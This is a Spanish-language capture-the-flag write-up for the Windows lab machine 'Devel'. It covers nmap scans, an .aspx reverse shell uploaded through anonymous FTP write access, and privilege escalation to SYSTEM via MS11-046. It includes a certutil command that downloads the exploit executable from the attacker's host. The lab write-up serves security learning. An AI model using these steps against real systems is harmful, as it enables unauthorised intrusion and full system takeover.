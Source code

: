 ```yaml
---
title: Devel
published: true
categories: [Windows,Easy]
tags: [Windows explotation, FTP file upload, MS11-046]
author: Kripteria
image:
  path: https://user-images.githubusercontent.com/55555187/183245027-881f68b7-d9c0-410b-a907-4a6766faec20.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
 
---
```


Devel es una <font color="#98E256">máquina Easy</font> de temática <font color="#2874A6">Windows</font> en la que se explota una subida de archivos a FTP mediante sesión anónima y la vulnerabilidad MS11-046 sobre afd.sys.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.5
```

![image](https://user-images.githubusercontent.com/55555187/183240877-8f5aef0e-cbf0-45e9-bc6c-9aad167d5b92.png)

```bash
nmap -sCV -p21,80 -oN portSV 10.10.10.5
```

![image](https://user-images.githubusercontent.com/55555187/183245183-94f18c5c-7b7c-45ef-9f30-ecce24c34751.png)

Lo primero que me llama la atención es que el servicio *FTP* permite login anónimo, me conecto para ver si hay algún archivo que pueda resultar de utilidad.

<img src="https://user-images.githubusercontent.com/55555187/183241047-4c64d94a-11f1-496a-814c-2efcee50ffc7.png" title="" alt="image" width="595">

Compruebo el contenido de ambos ficheros y no parece haber nada interesante, también compruebo los Metadata con *exiftool* por si hubiese un usuario que pueda ser de utilidad pero no es el caso tampoco. 

Realizo *Fuzzing* para buscar directorios y  subdominios válidos pero no encuentro nada.

En este punto lo que se me ocurre es comprobar si tengo permisos de escritura en el servicio *FTP* y si puedo acceder a los archivos a través de la web.

Intento subir un archivo *test.txt* usando put:

<img src="https://user-images.githubusercontent.com/55555187/183242329-e10da5dc-54c8-4fd5-80ee-f5727e4285a5.png" title="" alt="image" width="574">

Compruebo que se refleja en la web:

![image](https://user-images.githubusercontent.com/55555187/183242350-0b5690fc-0ef0-4dc2-9f3e-b1b5985a277b.png)

Pude intuir esto debido a que los archivos que originalmente estaban en el servicio *FTP* eran el código fuente de la web del puerto 80 y la imagen que se muestra.

Una vez que sé que puedo subir archivos y verlos reflejados en la web, subo una reverse shell en formato .aspx [GitHub - borjmz/aspx-reverse-shell: Aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell) al servicio *FTP* y accedo a la ruta *http://10.10.10.5/nombre rev shell.aspx* obteniendo una conexión:

![image](https://user-images.githubusercontent.com/55555187/183242640-911e42f3-64d4-4918-b962-b2c13a196569.png)

## Escalada de privilegios

Mirando los privilegios del usuario mediante *whoami /all* descubro que tiene el permiso *SeImpersonatePrivilege* por lo que quizás podría ser vulnerable a *RottenPotato* o *JuicyPotato*. Hago un intento con Juicy pero resulta que el OS es demasiado viejo para ejecutar el .exe.

Miro las especificaciones del sistema:

<img src="https://user-images.githubusercontent.com/55555187/183244241-15523594-3023-4d3f-a36b-767382d6511b.png" title="" alt="image" width="590">

Busco exploits asociados a *Windows 7 6.1.7600* y encuentro que es vulnerable a la vulnerabilidad MS11-046 la cual consiste en que la función *afd.sys* no valida los datos enviados desde el modo usuario al modo kernel permitiendo la ejecución de comandos en el modo kernel.

Encuentro un repositorio de Github con un montón de exploits para Windows, entre los que se encuentra uno para explotar la vulnerabilidad *MS11-046*

[WindowsExploits: Windows exploits, mostly precompiled.](https://github.com/abatchy17/WindowsExploits)

Descargo el *.exe*, lo envio a la máquina víctima a través de *certutil* y lo ejecuto logrando una shell como **NT AUTHORITY\SYSTEM**

```powershell
certutil.exe -urlcache -f http://10.10.14.6/MS11-046.exe ms11-046.exe
```

![image](https://user-images.githubusercontent.com/55555187/183244619-cef28930-365a-4c4b-bac6-122fc20842cf.png)
